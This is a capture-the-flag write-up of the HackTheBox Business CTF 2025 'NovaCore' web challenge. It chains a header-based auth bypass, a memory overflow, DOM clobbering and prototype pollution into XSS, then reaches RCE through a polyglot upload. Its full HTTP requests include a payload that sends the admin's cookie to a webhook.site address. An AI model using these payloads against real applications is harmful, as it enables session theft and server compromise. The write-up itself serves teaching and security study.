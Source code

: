 ```yaml
---
layout: post
title: NovaCore
category: HackTheBox Business CTF 2025
---
```


## Introduction: The Attack Path

This challenge was a masterclass in chaining multiple, distinct vulnerability classes to achieve a final goal. The exploit path was non-linear and required careful setup of multiple components before a final trigger could be pulled. The core of the challenge was bypassing a strict Content-Security-Policy (CSP) with a `nonce` to achieve XSS on the admin account. This was made possible by manipulating the logic of a front-end JavaScript file (`dashboard.js`) through a combination of DOM Clobbering and Prototype Pollution, which was itself set up using a memory corruption vulnerability.

The full chain can be summarized as follows:
1.  **Auth Bypass:** Become `sys_admin` using a hop-by-hop header bypass.
2.  **Memory Corruption:** As `sys_admin`, create two trades. Use a memory overflow to creaate trade as `admin` user.
3.  **Payload Planting (Part 1):** Edit the now admin-owned trade to inject a DOM Clobbering payload. This payload won't execute directly but will manipulate the DOM for a later script.
4.  **Payload Planting (Part 2):** Use an unauthenticated `/front_end_error/new/{name}` endpoint to store a JSON object containing a Prototype Pollution payload.
5.  **Triggering the Chain:** When the admin bot visit the compromised trade, the DOM Clobbering payload trigger the catch error in `dashboard.js`.
6.  **CSP/Nonce Bypass:** The script's error handling logic is manipulated:
    * DOM Clobbering makes the script check `window.UI_DEV_MODE` pass.
    * A path traversal, also injected via DOM Clobbering, forces the script to `fetch` our pre-planted Prototype Pollution payload from `/front_end_error/view/{name}` instead of reporting a new error.
    * The fetched JSON is parsed and merged, triggering the Prototype Pollution.
    * The polluted prototype value is passed into an `eval()`, executing our XSS payload and exfiltrating the admin's session cookie.
7.  **Remote Code Execution:** Use the stolen admin cookie to authenticate to a plugin upload endpoint and upload a specially crafted TAR/ELF polyglot file to bypass file validation and gain RCE.

---

## Step-by-Step Exploit Breakdown

### Step 1: Authentication Bypass via Hop-by-Hop Headers

Initial access was gained by exploiting how the application's reverse proxy handled hop-by-hop headers. By including `X-Real-IP` in the `Connection` header, the proxy would strip this header before forwarding the request to the backend. However, it would still process the `X-Real-IP` header itself. By setting `X-Real-IP: 127.0.0.1`, the backend application trusted the header and granted us `sys_admin` privileges.

The key headers were:
```http
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
```

### Step 2: Gaining Control via Memory Corruption

With `sys_admin` access, we could create trades. The vulnerability lay in the `edit_trade` function, which was susceptible to a overflow in the `symbol` parameter. This allowed us to overwrite the data of an adjacent trade object in memory.

The request to perform the overflow looked like this:

```http
POST /api/edit_trade HTTP/1.1
Host: 83.136.252.78:51714
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
Content-Length: 387
Content-Type: application/json

{
    "trade_id": "0b8618b8-d93d-44d0-ac5f-aaf69b7e3e31", 
    "symbol": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAuser:1:trade:cb474955-6761-494e-a050-aa7993403fd6"
 
}
```

### Step 3: Planting the Payloads

Now that we controlled an admin's trade, we needed to plant two different payloads.

#### A. The DOM Clobbering Payload

We edited the trade to include an HTML payload in its `symbol`.

```http
POST /api/edit_trade HTTP/1.1
Host: 83.136.252.78:51714
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
Content-Length: 266
Content-Type: application/json

{
    "trade_id": "cb474955-6761-494e-a050-aa7993403fd6", 
    "symbol": "<form/name=\"getElementById\"/value=\"test\"></form><a/id=\"UI_DEV_MODE\"></a><anything/id=\"LOG_LEVEL\"/int=\"../view/random\"></anything>",
    "action": "BUY",
    "price": "1.0"
}
```

#### B. The Prototype Pollution Payload

Next, we used the `/front_end_error` endpoint to store our final XSS payload within a JSON structure.

```http
POST /front_end_error/new/random HTTP/1.1
Host: 83.136.252.78:51714
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
Content-Length: 117
Content-Type: application/json

{"__proto__":{"length":"(location='https://webhook.site/xxxxxxx/?c='+document.cookie)"}}
```

### Step 4: Triggering the Exploit Chain

With all the pieces in place, the exploit triggers automatically when the admin user visits their dashboard and views the compromised trade. This causes the chain of events described previously: the DOM is clobbered, a controlled error occurs, the error handler fetches our Prototype Pollution payload via a path traversal, the `Object.prototype` is polluted, and finally, `eval()` executes our code, stealing the admin's cookie.

### Step 5: Post-Exploitation to RCE

With the admin's session cookie, we authenticated to the application as the admin. We discovered a plugin upload feature at a `/run_plugin` endpoint. To bypass the backend `tar` and `readelf` checks, we crafted a polyglot file that was simultaneously a valid TAR archive and a valid ELF executable. Uploading and executing this polyglot file bypassed the validation and gave us Remote Code Execution on the server.

---

## Conclusion

The `web_novacore` challenge was a formidable and deeply rewarding experience. It brilliantly wove together an array of advanced web vulnerabilities, demanding a thorough understanding of not just each individual flaw, but precisely how they could be chained together. The reliance on DOM Clobbering to pivot to Prototype Pollution as a CSP bypass was particularly ingenious. This was a true "final boss" web challenge.

---
For the full official write-up, see: https://github.com/hackthebox/business-ctf-2025/tree/master/web/novacore





